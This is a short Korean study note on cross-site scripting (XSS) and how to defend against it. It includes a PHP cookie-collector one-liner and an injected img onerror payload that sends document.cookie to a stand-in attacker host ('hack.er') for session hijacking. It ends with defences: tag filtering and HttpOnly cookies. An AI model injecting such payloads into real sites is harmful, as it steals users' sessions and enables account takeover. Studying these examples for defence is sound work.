 # XSS
    
### 공부해야 하는 이유는?
    
    쿠키와 관련 있는 공격이다. 공부함으로써 더 안전한 쿠키 세션 로그인 방식을 만들 수 있다.
    
### XSS 공격은 무엇이고 어떤 식으로 작동할까?
    
    XSS 공격은 Cross Site Scripting의 약자지만 CSS와 겹쳐서 XSS로 불린다. 해커의 사이트와 사용자가 접속한 사이트를 넘나들면서 공격이 이루어지기 때문에 이렇게 불린다.
    
    예시)
    
    해커의 홈페이지에 Cookie.php라는 파일을 만든다. get 파라미터에 cookie라는 이름의 값을 XSS.txt에 적는 코드이다.
    
     <? fwrite(fopen("XSS.txt","a+"), $_GET['cookie']); ?>
    
    공격할 사이트에 스크립트를 심는다. 게시글이 될 수도 있고 닉네임이 될 수도 있고 여러 방법이 있을 수 있다.
    
    <img src="#" onerror="location.href('http://hack.er/Cookie.php?cookie=' + document.cookie);">
    
    서버는 이 스크립트를 포함하는 페이지를 그대로 응답으로 반환하고 원래는 단순 텍스트였던 것이 자바스크립트의 문법과 맞물리면서 자바스크립트 코드가 실행된다.
    
    코드에 따라 쿠키값이 해커의 홈페이지로 넘어가서 세션 하이재킹이 가능해진다.
    
### 어떻게 방어해야할까?
    1. 서버 입장에서 자바스크립트의 스크립트를 실행할 수 있는 <script>와 같은 태그들을 입력 받을 때와 출력할 때 모두 필터링하여 걸러낸다. 
    2. Javascript에서 쿠키에 접근하지 못하게 쿠키를 HttpOnly로 설정한다.